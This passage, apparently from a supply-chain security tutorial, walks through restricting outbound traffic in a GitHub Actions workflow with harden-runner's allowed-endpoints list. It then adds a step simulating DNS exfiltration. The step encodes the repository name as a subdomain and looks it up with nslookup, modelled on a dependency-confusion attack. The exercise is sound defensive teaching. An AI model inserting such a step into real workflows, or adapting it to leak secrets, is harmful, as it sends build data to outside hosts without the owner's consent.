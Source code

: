 6. Click on the link. You should see outbound traffic correlated with each step of the workflow. An outbound network policy would be recommended. 

7. Update the `ci.yml` workflow with the policy. The first step should now look like this. From now on, outbound traffic will be restricted to only these domains for this workflow. 

    ```
    - uses: step-security/harden-runner@v1
      with:
        allowed-endpoints: 
          codecov.io:443
          github.com:443
          storage.googleapis.com:443
    ```

8. Simulate a DNS exfiltration attack similar to the one used in the dependency confusion attack. Update the workflow and add the following statement. In the actual attack, the outbound call was made by a malicious package as part of `preinstall` step. In this case, just add this step to the workflow to simulate sending the repo name as a sub-domain to stepsecurity.io. 

    ```
    - name: Simulate DNS exfiltration
      run: |
        domain="${GITHUB_REPOSITORY}.stepsecurity.io"
        nslookup "${domain}"
    ```

9. This change should cause the workflow to run, as it is set to run on push.

10. Observe that the workflow shows an annotation that the DNS resolution for the call is blocked. 

    <img src="https://raw.githubusercontent.com/step-security/supply-chain-goat/main/images/OutboundCallBlocked.png" alt="Blocked calls are shown in Red" width="800">
